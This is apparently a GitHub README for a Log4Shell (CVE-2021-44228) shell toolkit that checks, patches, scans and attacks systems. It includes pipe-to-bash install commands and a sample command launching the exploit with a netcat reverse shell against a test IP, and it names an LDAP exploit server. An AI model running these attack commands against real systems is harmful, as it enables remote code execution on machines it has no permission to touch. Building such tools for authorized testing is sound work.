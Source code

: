 # log4shell4shell
Log4j - Multitool. Find &amp; fix possible CVE-2021-44228 vulneraries - provides a complete LOG4SHELL test/attack environment

![Thumb](/logo_banner.png )

# Features

- Check your Linux/Mac/BSD and Windows System for CVE-2021-44228 vulneraries
- Fix your system by deleting log4j java class / or setting some enviroment variables 
- Proof of Concept: you can run a dummy spring boot server for testing the exploit by yourself (https://github.com/christophetd/log4shell-vulnerable-app)
- You can run a attack against a wished IP-Port and include a Base64 Command / Or A simple Reverse Shell
- Full ip-range scanning by https://github.com/fullhunt/log4j-scan

# How to Run on Linux/Mac/BSD:

### Requirements:

- https://docs.docker.com/get-docker/
- Debian / Ubuntu: ```apt update ; apt install default-jre screen python3-pip bash curl```
- OpenSuse: ```zypper ref ; zypper in default-jre screen python3-pip bash curl```
- Redhead-Linux / CentOS: ```yum clean; yum install default-jre screen python3-pip bash curl```
- BSD pkg: ```pkg install default-jre screen python3-pip curl```
- Mac OS (Brew): ```/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)" ; brew install default-jre screen python3 pip```

### Quick check your system with this oneliner:

```bash
wget https://raw.githubusercontent.com/suuhm/log4shell4shell/main/log4shell4shell.sh -qO- | bash -s -- --check-system
```

### More Options
#### Run a sample attack against IP: 10.4.4.20 Port 8080 loginpage and additionally a Reverse Proxy Shell :

```bash
git clone https://github.com/suuhm/log4shell4shell ; cd log4shell4shell
mv log4shell4shell.sh l4s4s.sh && chmod +x l4s4s.sh
./l4s4s.sh --run-attack http://10.4.4.20:8080/login.php -e
```
Run ```screen -r l4s4s-ldap-srv``` and/or ```screen -r l4s4s-nc-rsh``` to view some attacking infos in Exploit-Server shell: 


#### Run a full scan  IP: 10.4.4.20 Port 8080 and additionally a try all tests :

```bash
./l4s4s.sh --python-scan "-u 10.4.4.20:8080 --run-all-tests"
```


### All available Options

```bash
_|                            _|  _|              _|                  _|  _|  _|  _|              _|                  _|  _|
_|          _|_|      _|_|_|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|  _|  _|      _|_|_|  _|_|_|      _|_|    _|  _|
_|        _|    _|  _|    _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|  _|_|_|_|  _|_|      _|    _|  _|_|_|_|  _|  _|
_|        _|    _|  _|    _|      _|        _|_|  _|    _|  _|        _|  _|      _|        _|_|  _|    _|  _|        _|  _|
_|_|_|_|    _|_|      _|_|_|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|      _|    _|_|_|    _|    _|    _|_|_|  _|  _|
                          _|
                      _|_|

 > Running Log4shell Framework & Check-Toolkit on shell v0.1a (C) 2021 suuhm
 

Usage: ./l4s4s.sh [OPTIONS] <IP:PORT|COMMAND>

                        --get-powershell-finder
                        --check-system
                        --fix-log4j
                        --run-dummy-server <LDAP-SERVER.zip>
                        --run-attack <FORMAT: IP:PORT> <-e/-t>
                        --python-scan <command>

```

# How to Run on Windows x86 / x64:

Just run in Powershell (admin-mode): ``` .\set_windows_fix.ps1 ```


# This script is alpha! So please let me know if you have some issues

# Legal Disclaimer

The project log4shell4shell is made for educational and ethical testing purposes only. Usage of log4j-scan for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.
